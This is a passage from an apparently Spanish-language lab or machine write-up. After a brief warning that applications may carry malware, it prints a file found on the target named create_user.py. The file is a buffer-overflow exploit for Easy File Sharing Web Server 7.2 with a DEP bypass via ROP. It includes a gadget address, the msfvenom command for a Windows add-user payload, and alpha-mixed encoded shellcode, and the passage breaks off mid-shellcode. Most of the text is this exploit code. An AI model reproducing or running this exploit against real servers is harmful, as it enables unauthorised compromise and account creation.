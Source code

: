 Hay que tenber cierto cuidado con este tipo de aplicaciones ya que puede contener en su ejecución malwares que se ejecutenb en nuestro dispositivo como puede ser el script que veremos posteriormente. 

### Script que explota una vulnerabilidad

En el escritorio de la máquina podemos apreciar como hay un archivo llamado `create_user.py`. El contenido de este fichero es el siguiente: 


```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Exploit Title: Easy File Sharing Web Server 7.2 - 'POST' Buffer Overflow (DEP Bypass with ROP)
# Software Link: http://www.sharing-file.com/efssetup.exe
# Created : Ihacklabs Limited
# Version: Easy File Sharing Web Server v7.2
# Tested on: Windows 2012 R2 x64

import socket
import struct
import sys

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <host>\n"
    exit()

# 0x1002280a :  # ADD ESP,1004 # RETN    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
ret = struct.pack("<I", 0x1002280a)


#msfvenom -p windows/adduser user=ihacklabs password=Ihack12/ -e x86/alpha_mixed -v Shellcode4 -f python                                                                  (master✱)
#No platform was selected, choosing Msf::Module::Platform::Windows from the payload
#No Arch selected, selecting Arch: x86 from the payload
#Found 1 compatible encoders
#Attempting to encode payload with 1 iterations of x86/alpha_mixed
#x86/alpha_mixed succeeded with size 622 (iteration=0)
#x86/alpha_mixed chosen with final size 622
#Payload size: 622 bytes
#Final size of python file: 3474 bytes

Shellcode4 = "\x90"*250
Shellcode4 += "\x89\xe2\xd9\xe9\xd9\x72\xf4\x5d\x55\x59\x49"
Shellcode4 += "\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43"
Shellcode4 += "\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50"
Shellcode4 += "\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42"
Shellcode4 += "\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38"
Shellcode4 += "\x41\x42\x75\x4a\x49\x59\x6c\x58\x68\x6e\x62"
Shellcode4 += "\x55\x50\x75\x50\x35\x50\x33\x50\x4d\x59\x6d"
Shellcode4 += "\x35\x75\x61\x6f\x30\x42\x44\x6e\x6b\x52\x70"
Shellcode4 += "\x46\x50\x4c\x4b\x71\x42\x76\x6c\x6e\x6b\x62"
Shellcode4 += "\x72\x55\x44\x4e\x6b\x30\x72\x57\x58\x56\x6f"
Shellcode4 += "\x78\x37\x43\x7a\x35\x76\x75\x61\x4b\x4f\x4c"
Shellcode4 += "\x6c\x67\x4c\x50\x61\x63\x4c\x56\x62\x76\x4c"
Shellcode4 += "\x35\x70\x5a\x61\x48\x4f\x46\x6d\x63\x31\x49"
Shellcode4 += "\x57\x4b\x52\x48\x72\x52\x72\x36\x37\x4c\x4b"
Shellcode4 += "\x50\x52\x36\x70\x6c\x4b\x50\x4a\x65\x6c\x4c"
Shellcode4 += "\x4b\x32\x6c\x64\x51\x54\x38\x6d\x33\x52\x68"
Shellcode4 += "\x33\x31\x58\x51\x72\x71\x4c\x4b\x52\x79\x55"
Shellcode4 += "\x70\x55\x51\x69\x43\x6e\x6b\x73\x79\x77\x68"
Shellcode4 += "\x49\x73\x55\x6a\x43\x79\x4e\x6b\x54\x74\x6c"
Shellcode4 += "\x4b\x43\x31\x58\x56\x45\x61\x4b\x4f\x4e\x4c"
Shellcode4 += "\x39\x51\x4a\x6f\x44\x4d\x45\x51\x4f\x37\x57"
Shellcode4 += "\x48\x69\x70\x52\x55\x6a\x56\x54\x43\x71\x6d"
Shellcode4 += "\x79\x68\x57\x4b\x63\x4d\x36\x44\x50\x75\x59"
```